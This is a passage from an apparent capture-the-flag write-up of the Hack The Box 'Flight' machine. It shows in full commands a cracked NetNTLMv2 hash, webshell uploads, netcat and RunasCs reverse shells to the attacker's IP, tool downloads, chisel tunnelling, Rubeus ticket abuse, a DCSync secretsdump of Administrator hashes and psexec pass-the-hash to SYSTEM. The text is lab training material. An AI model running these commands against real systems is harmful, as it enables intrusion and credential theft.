C.BUM::flight.htb:1c5bf6cf237e6004:b50e69477037ffe491d342e031104008:0101000000000000809cca644eeed901ae8f84612504481a0000000002000800310055004300450001001e00570049004e002d004900320042005a0046004c004f00380047005600390004003400570049004e002d004900320042005a0046004c004f0038004700560039002e0031005500430045002e004c004f00430041004c000300140031005500430045002e004c004f00430041004c000500140031005500430045002e004c004f00430041004c0007000800809cca644eeed90106000400020000000800300030000000000000000000000000300000ea6b7f0aaf37ef71cd4e465811c76d335a8573866f11c7ffe603a95f9f5a2dc00a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0039000000000000000000:Tikkycoll_431012284
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: C.BUM::flight.htb:1c5bf6cf237e6004:b50e69477037ffe4...000000
Time.Started.....: Sat Sep 23 18:49:23 2023 (9 secs)
Time.Estimated...: Sat Sep 23 18:49:32 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1167.7 kH/s (0.37ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10536448/14344385 (73.45%)
Rejected.........: 0/10536448 (0.00%)
Restore.Point....: 10535936/14344385 (73.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Time14250 -> Tiggerkr
Hardware.Mon.#1..: Util: 94%

Started: Sat Sep 23 18:49:22 2023
Stopped: Sat Sep 23 18:49:34 2023
```

- Let's check the `smb` again
```
└─$ smbmap -H 10.10.11.187 -u 'c.bum' -p 'Tikkycoll_431012284'    
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ, WRITE
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ, WRITE
```

- We have `Write` permissions over `Web` directory
  - Now we can try uploading a `webshell` and get reverse shell
  - I uploaded the web shell to root directory of `school.flight.htb` but it got deleted
  - So I uploaded the files to `styles`, it worked
```
└─$ smbclient //flight.htb/Web -U 'c.bum%Tikkycoll_431012284'   
Try "help" to get a list of possible commands.
smb: \> cd school.flight.htb\
smb: \school.flight.htb\> ls
  .                                   D        0  Sun Sep 24 01:52:00 2023
  ..                                  D        0  Sun Sep 24 01:52:00 2023
  about.html                          A     1689  Tue Oct 25 04:54:45 2022
  blog.html                           A     3618  Tue Oct 25 04:53:59 2022
  home.html                           A     2683  Tue Oct 25 04:56:58 2022
  images                              D        0  Sun Sep 24 01:52:00 2023
  index.php                           A     2092  Thu Oct 27 08:59:25 2022
  lfi.html                            A      179  Thu Oct 27 08:55:16 2022
  styles                              D        0  Sun Sep 24 01:52:00 2023

                5056511 blocks of size 4096. 1253232 blocks available
smb: \school.flight.htb\> put shell.php
putting file shell.php as \school.flight.htb\shell.php (0.1 kb/s) (average 0.1 kb/s)
smb: \school.flight.htb\> put nc64.exe nc.exe
putting file nc64.exe as \school.flight.htb\nc.exe (59.7 kb/s) (average 42.6 kb/s)
smb: \school.flight.htb\> ls
  .                                   D        0  Sun Sep 24 01:57:00 2023
  ..                                  D        0  Sun Sep 24 01:57:00 2023
  about.html                          A     1689  Tue Oct 25 04:54:45 2022
  blog.html                           A     3618  Tue Oct 25 04:53:59 2022
  home.html                           A     2683  Tue Oct 25 04:56:58 2022
  images                              D        0  Sun Sep 24 01:57:00 2023
  index.php                           A     2092  Thu Oct 27 08:59:25 2022
  lfi.html                            A      179  Thu Oct 27 08:55:16 2022
  styles                              D        0  Sun Sep 24 01:57:00 2023

                5056511 blocks of size 4096. 1253232 blocks available
smb: \school.flight.htb\> cd styles
smb: \school.flight.htb\styles\> put shell.php
putting file shell.php as \school.flight.htb\styles\shell.php (0.1 kb/s) (average 29.2 kb/s)
smb: \school.flight.htb\styles\> put nc64.exe nc.exe
putting file nc64.exe as \school.flight.htb\styles\nc.exe (46.6 kb/s) (average 35.9 kb/s)
smb: \school.flight.htb\styles\> ls
  .                                   D        0  Sun Sep 24 01:58:04 2023
  ..                                  D        0  Sun Sep 24 01:58:04 2023
  ie6.css                             A      587  Fri Dec  2 19:42:00 2011
  nc.exe                              A    45272  Sun Sep 24 01:58:05 2023
  shell.php                           A       35  Sun Sep 24 01:58:02 2023
  style.css                           A    11045  Wed Jan 25 20:17:32 2012

                5056511 blocks of size 4096. 1253220 blocks available

```

- We got `rce`
```
└─$ curl 'http://school.flight.htb/styles/shell.php?cmd=whoami'
flight\svc_apache

```

- Let's get reverse shell
```
└─$ curl 'http://school.flight.htb/styles/shell.php?cmd=nc.exe+10.10.16.9+6666+-e+cmd'
```


## User #4
- We have port `8000` that we didn't get from `nmap`
```
C:\>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       1844
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       920
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       1844
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       920
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2796
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       492
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1160
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1524
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49682          0.0.0.0:0              LISTENING       632
  TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       2944
  TCP    0.0.0.0:49721          0.0.0.0:0              LISTENING       2888

```
- `inetpub`
```
C:\inetpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1DF4-493D

 Directory of C:\inetpub

09/23/2023  06:17 PM    <DIR>          .
09/23/2023  06:17 PM    <DIR>          ..
09/22/2022  12:24 PM    <DIR>          custerr
09/23/2023  06:17 PM    <DIR>          development
09/22/2022  01:08 PM    <DIR>          history
09/22/2022  12:32 PM    <DIR>          logs
09/22/2022  12:24 PM    <DIR>          temp
09/22/2022  12:28 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               8 Dir(s)   5,131,374,592 bytes free
```
- The `development` folder looks interesting
  - Probably hosted on port `8000`
  - `icalcs` shows that `C.Bum` can write to it
```
C:\inetpub>icacls development
icacls development
development flight\C.Bum:(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```
- `C.Bum` is a user of `WebDevs`
  - We can't do `RunAs` since he's not a member of `Remote Users`
```
C:\>net user c.bum
net user c.bum
User name                    C.Bum
Full Name                    
Comment                      Senior Web Developer
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/22/2022 1:08:22 PM
Password expires             Never
Password changeable          9/23/2022 1:08:22 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/23/2023 5:49:48 PM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *WebDevs              
The command completed successfully.

```

- We can use [RunasCs](https://github.com/antonioCoco/RunasCs)
  - 
```
c:\ProgramData>powershell -c wget 'http://10.10.16.9/RunasCs/RunasCs.exe' -outfile r.exe
powershell -c wget 'http://10.10.16.9/RunasCs/RunasCs.exe' -outfile r.exe

```
```
c:\ProgramData>.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.16.9:7777 cmd
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.16.9:7777 cmd
[*] Warning: The logon for user 'C.Bum' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5c489$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2916 created in background.
```


- I'll upload `chisel` and cofigure port forwarding
```
c:\ProgramData>powershell -c wget 'http://10.10.16.9/chisel/chisel.exe' -outfile chisel.exe
powershell -c wget 'http://10.10.16.9/chisel/chisel.exe' -outfile chisel.exe
```
```
└─$ chisel server -p 9001 --reverse
2023/09/23 20:03:29 server: Reverse tunnelling enabled
2023/09/23 20:03:29 server: Fingerprint JeRr1Iv0QFNX3h/ccCpD0kkPmmodD/6H8mfxn9glwA0=
2023/09/23 20:03:29 server: Listening on http://0.0.0.0:9001
```
```
c:\ProgramData>.\chisel client 10.10.16.9:9001 R:8000:127.0.0.1:8000
.\chisel client 10.10.16.9:9001 R:8000:127.0.0.1:8000
```

- Now we have access to port `8000` from our attack box


- Nothing interesting on website
  - But it's `development` folder we saw in `inetpub`
  - We can try uploading webshell as `C.Bum`
  - The page says it's `X-Powered-By: ASP.NET`, means that `.aspx` file type is in use.
```
C:\inetpub\development>powershell -c wget 'http://10.10.16.9/webshell/fuzzdb-webshell/asp/cmd.aspx' -outfile cmd.aspx
powershell -c wget 'http://10.10.16.9/webshell/fuzzdb-webshell/asp/cmd.aspx' -outfile cmd.aspx

```


- Let's get reverse shell


## Root
- `whoami`
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                           Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

```

- We can try `Potato` attack
  - Or get a ticket and perform `DCsync` since `defaultapppool` is a system account
  - https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse#microsoft-virtual-accounts



- We will download a `Rubeus`
  - Let's retrieve a usable TGT `.kirbi` for the current user
```
c:\ProgramData>.\rubeus.exe tgtdeleg /nowrap
.\rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: ZC94EHDx7bl7K48HFw67lS4bobToY9KsEJVjbR05ePw=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIEClRHKont/zFCGa6MJYudTEwHjrtQeQRAZBPdDy/mYiwMFSEAYMM8i1sz3nz3QkARVAc4dFG1nDFsSO4nt5oHEu7G3emeOSTcO5jANRV3ghYMAInoIX05g67Yh8cQwNJgKdRCJGeg3Sn6JPoRR/V9SadzhqN2P5Vp15o2dLozD/QNBzEsGepZ0Bk9Wwk60TgVd6l/w+kY5KFbIuEVFwHFeVPi7l6wm6g8YMDCpLTdft2nHo91oA2PXyE4mN/RRottrQYQ6gnW7Ljo1Gxw4KCkUG3oDUpTRNtuz5kr4BN1Hz+iQhpqoeUsL7QA34IojA5IaN6IOaex8VJKp2romFinc3kp9xchvMFF5ny/w2XDW7JCEuI0ERvbe/Y0XB/2v6WaH8oSMulOg9XyDAU5hr6ct6hb/tMNAEB5uoqcf69XZOc6qW/RcIaPqYRE0BNCTmgnRhu0hlFx5a0+g0orkStvJWa/nHBk5SlCPHTR2jxcYRCzLOlTcMJPxPWYG239IfEOIGnzLSfpXaym20cM0JNqPCbeH0HdDa8EozD9AUX3UTuWa+O9HcMVtHn/VvH3g2yAmQo5hqln6NT0gNT5qlh6Pgl6LtsI1+p1JLr4cnob3NGomT/zkHbM/S8lbIxIP2H77fWevbD+3kSg6+1yYBxEEaUmaljjtdFcNBn3EAWoW2nRAK3rtZZzJ2FRBweUeEJMSt5LXFAv6cic4VRv9Wrm+KFnf3c5I/pF/889zF8ddXYj4Tfsxs6bH1x6LFzB9/h/2rRqZyjAwNj+0hLTDvPsQ41D+4S/0Jgs98/N4VPXjvhYBZuQg3TnHNGzbHjq2hFiUtHFznTfbXb/jEX7ii2isWPlBApLULVxGMHK0oZfD/qBX6oy+FVEvhYdtJAHhJRxQFuFLh8tfano9APWhonMwUji9Xntbmu+8b/oEI6FI21EL7BS1PPxUG/3gL6nkULQU21nPLZAD8UyA5JXXNe82tgW7ppFxXHw/HdLUA+s02SC53v2Mqs58wtrZnANSc3lCsuyZeEpGSCJEGcYezvzKnJniLldJYw8fCACDPJjvZdHqcTlmpSQDUgVxXdIzmquZcerwf9TMmImDkaNUtEYYWmwzvUBUPxABtpomfT/bQl3/fGZveuhZ/HSsn6uRDTRrtQekcK8m6T6nuJEa8MltoL/1fXFQwz2dbtJa4iMn94EsRsPbUu+zSqeJXUKL92034T4Cu1XWymvR7UXiQtwguIYzytvuOmGw2c8LvYUQ9XUXVJFCzHTu/7XG2WooOhq8xunrr5jvRwqsF5WLLg+otMPnQ8UV/DBN0R5zyfwK9acLONjelFV0v3YogvLGALvUY9nB8WXPOihqIVmteEgZMWKzCNT2wcbt9Pyo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgCbNvRWiV0kOC6VPOkl1kQlmez+E3wdp0aORuxnSKYTOhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDIzMDkyNDAyMzgxM1qmERgPMjAyMzA5MjQxMjM4MTNapxEYDzIwMjMxMDAxMDIzODEzWqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

- Save the ticket as `<name>.kirbi` and use [minikerberos-kirbi2ccache](https://github.com/skelsec/minikerberos)
```
└─$ minikerberos-kirbi2ccache ticket.kirbi ticket.ccache 
INFO:root:Parsing kirbi file /home/kali/Documents/tasks/ticket.kirbi
INFO:root:Done!
```
```
└─$ KRB5CCNAME=./ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Cleaning up... 

```

- Let's try with `-just-dc-user Administrator`
```
└─$ KRB5CCNAME=./ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 

```

- We have to sync our box with the `Domain Controller`
```
└─$ sudo ntpdate -s flight.htb; KRB5CCNAME=./ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:08c3eb806e4a83cdc660a54970bf3f3043256638aea2b62c317feffb75d89322
Administrator:aes128-cts-hmac-sha1-96:735ebdcaa24aad6bf0dc154fcdcb9465
Administrator:des-cbc-md5:c7754cb5498c2a2f
[*] Cleaning up... 
```

- Let's `psexec` and get our flag
```
└─$ impacket-psexec Administrator@flight.htb -hashes ':43bbfc530bab76141b12c8446e30c17c'                               
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on flight.htb.....
[*] Found writable share ADMIN$
[*] Uploading file hMiZkYDv.exe
[*] Opening SVCManager on flight.htb.....
[*] Creating service ZhUZ on flight.htb.....
[*] Starting service ZhUZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```